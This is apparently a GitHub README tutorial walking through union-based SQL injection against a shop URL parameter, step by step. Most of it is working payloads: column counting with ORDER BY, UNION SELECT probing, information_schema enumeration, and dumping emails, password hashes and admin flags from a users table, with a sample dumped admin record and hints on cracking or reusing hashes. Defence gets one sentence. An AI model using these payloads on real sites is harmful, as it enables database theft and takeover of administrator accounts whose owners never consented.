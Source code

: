 # Simple SQL injection example


1 - Find a vulnerbale URL: `example.com/shop.php?item=3'`
	You are looking for an error.

2 - Use `order by X` in the URL to get the injection points: `example.com/shop.php?item=3 order by 100 --`

3 - Go up and down to get the table count: `example.com/shop.php?item=3 order by 10 --`

  We're looking for an "unknown column count" error, but it will still show a correct layout when we get the right number.
	We get the final URL (last number with an error): `example.com/shop.php?item=3 order by 7 --`
  
  Then minus 1 which gives us 6 (because it starts at 0, not 1)
	
4 - Now we add the `union all select` statement to get the attack vectors:

```example.com/shop.php?item=-3 union all select 1,2,3,4,5,6 --```

Some content on the page will be replaced with a number above. We'll inject our code into that number.
	
5 - The next step is to start gathering information about the server / site setup. 
  We will assume there is only one injection point here, so test them seperatly: ```example.com/shop.php?item=-3 union all select 1, version() ,3,4,5,6 --```
  
and: ```example.com/shop.php?item=-3 union all select 1, user() ,3,4,5,6 --```

Neither are a great hit so we'll carry on enumeration...
	
6 - Now we need to know the names of the tables to proceed by using the `group_concat` statement:

```example.com/shop.php?item=-3 union all select 1, group_concat(table_name) ,3,4,5,6  from information_schema.tables where table_schema=database() --```
  
  This simply says: "gimme the concatenated table_names from the tables list". The table names will be shown where the injectednumber was. Click three times to highlight the entire string and paste it into notepad so you can search for useful fields.
  
  Both the `users` and `Login` tables look interesting...
	
  Note: table / row / column names are case-sensitive!
	
7 - So let's try to get the `users` table with a similar URL:

```example.com/shop.php?item=-3 union all select 1, group_concat(column_name) ,3,4,5,6  from information_schema.columns where table_name = 0x7573657273 --```

We just change table to column and change table_schema to `table_name = 0x("users" in hex)`.

The page should now show the columns for the `users` table. The rows are the actual users info... username, email, password, etc.

Again, copy and paste to notepad to make searching easier.
	
These columns look interesting:

```ID,Email,Password,admin```
	
8 - So let's see what's in the above fields with a similar statement to the previous two:
	
```example.com/shop.php?item=-3 union all select 1, group_concat(ID,0x3a,Email,0x3a,Password,0x3a,admin) ,3,4,5,6 from users --```
	
`0x3a` will be replaced with `:` to help separating the data easier. 

We also replced the `from information_schema` junk with just `from tablename`
	
This will return a lot of data but we can filter it further to find an admin login...
	
9 - Finding an admin account is always preferred, so we can start filtering using a "where" statement...

```example.com/shop.php?item=-3 union all select 1, group_concat(ID,0x3a,Email,0x3a,Password,0x3a,admin) ,3,4,5,6  from users where admin <> '' --```

Suffixing `where admin <> ''` means "show me all rows where admin permissions isn't under or over anything"... < means under, > means over and '' being a blank value.
	
10 - Tada. Copy and paste the account info into notepad and see what we got...

	113:diane@example.com:13c910179746854acd8c4dbedfc3610f:Y
	or
	ID: 113
	Email: diane@example.com
	Password: 13c910179746854acd8c4dbedfc3610f
	admin: Y (yes, I'm an admin account)
	
Not all hashes are easy to crack or even valid (it could be salted or use a hidden concatenated value). Most of the users on this site have easy to crack passwords but not the admin

Sometimes the MD5 hash will also work as the password, but not always.

Preventing SQL injection attacks is fairly simple. All user data should be sanitized and never assumed to be clean!

## Thanks
That was a quick and dirty guide to SQL injection. It's a very old technique, not new, and mostly patched. Hope you enjoyed it, and feel free to let me know what you think...

## Social

[Twitter](https://twitter.com/mradamdavies) || [Hackersploit Discord](https://discord.gg/hackersploit) || [Buy me a coffee!](https://www.buymeacoffee.com/mradamdavies)
